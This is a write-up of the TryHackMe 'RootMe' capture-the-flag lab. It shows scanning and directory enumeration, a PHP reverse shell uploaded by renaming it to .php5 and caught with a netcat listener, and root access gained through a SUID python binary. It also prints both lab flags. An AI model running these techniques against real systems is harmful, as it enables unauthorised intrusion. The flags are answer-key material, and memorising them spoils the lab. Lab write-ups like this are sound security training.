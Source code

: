 # Root Me  - Try Hack Me

Reference: [Root Me](https://tryhackme.com/room/rrootme)

Level: Super Easy

---

Recognition:

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ nmap -A 10.10.5.164  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-02 14:35 CET
Nmap scan report for 10.10.5.164
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
```

It seems that we have a webserver running on this VM. Let's try to list available URLs on the site.

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ dirb http://10.10.5.164

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jan  2 14:43:17 2024
URL_BASE: http://10.10.5.164/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.5.164/ ----
==> DIRECTORY: http://10.10.5.164/css/                                                                              
+ http://10.10.5.164/index.php (CODE:200|SIZE:616)                                                                  
==> DIRECTORY: http://10.10.5.164/js/                                                                               
==> DIRECTORY: http://10.10.5.164/panel/                                                                            
+ http://10.10.5.164/server-status (CODE:403|SIZE:276)                                                              
==> DIRECTORY: http://10.10.5.164/uploads/                                                                          
                                                                                                                    
---- Entering directory: http://10.10.5.164/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                    
---- Entering directory: http://10.10.5.164/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                    
---- Entering directory: http://10.10.5.164/panel/ ----
+ http://10.10.5.164/panel/index.php (CODE:200|SIZE:732)                                                            
                                                                                                                    
---- Entering directory: http://10.10.5.164/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Jan  2 14:47:51 2024
DOWNLOADED: 9224 - FOUND: 3
```

**Number of ports open**: 2

**Apache Version**: 2.4.29

**Service running on port 22**: ssh

**Hidden directory**: /panel/ 

The `/panel/` page seems to be used to upload files on the webserver. We will be trying to upload a php reverse shell and then trigger it to access the VM. The first attempt with a file `reverse.php` didn't work but by renaming it to [reverse.php5](./reverse.php5) it's possible to upload the file.  

![](./image/panel.png)

Once the upload is done a link appears, this link sends us to the `upload` page and we're now able to see the uploaded files. 

![](./image/uploads.png)

By clicking on the uploaded script we can trigger the reverse shell. But before lets open a netcat listener:

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ nc -nlvp 4444    
listening on [any] 4444 ...
connect to [10.9.168.4] from (UNKNOWN) [10.10.68.89] 48504
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:28:44 up 3 min,  0 users,  load average: 2.44, 2.11, 0.90
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$
```

We're in ! Searching for interesting stuff in the `home` directory. But nothing cool here.

```bash
www-data@rootme:/home$ ls -la test
ls -la test
total 28
drwxr-xr-x 3 test test 4096 Aug  4  2020 .
drwxr-xr-x 4 root root 4096 Aug  4  2020 ..
-rw------- 1 test test  393 Aug  4  2020 .bash_history
-rw-r--r-- 1 test test  220 Aug  4  2020 .bash_logout
-rw-r--r-- 1 test test 3771 Aug  4  2020 .bashrc
drwxrwxr-x 3 test test 4096 Aug  4  2020 .local
-rw-r--r-- 1 test test  807 Aug  4  2020 .profile
www-data@rootme:/home$ ls -la rootme
ls -la rootme
total 32
drwxr-xr-x 4 rootme rootme 4096 Aug  4  2020 .
drwxr-xr-x 4 root   root   4096 Aug  4  2020 ..
-rw------- 1 rootme rootme  100 Aug  4  2020 .bash_history
-rw-r--r-- 1 rootme rootme  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 rootme rootme 3771 Apr  4  2018 .bashrc
drwx------ 2 rootme rootme 4096 Aug  4  2020 .cache
drwx------ 3 rootme rootme 4096 Aug  4  2020 .gnupg
-rw-r--r-- 1 rootme rootme  807 Apr  4  2018 .profile
-rw-r--r-- 1 rootme rootme    0 Aug  4  2020 .sudo_as_admin_successful

```
Searching for the user flag:

```bash
$ find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

By listing the directory and files with root priveleges we can see that python as root role. We just have to open a shell using python to become root:

```bash
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
# find / -type f -name "root.txt" 2>/dev/null
find / -type f -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```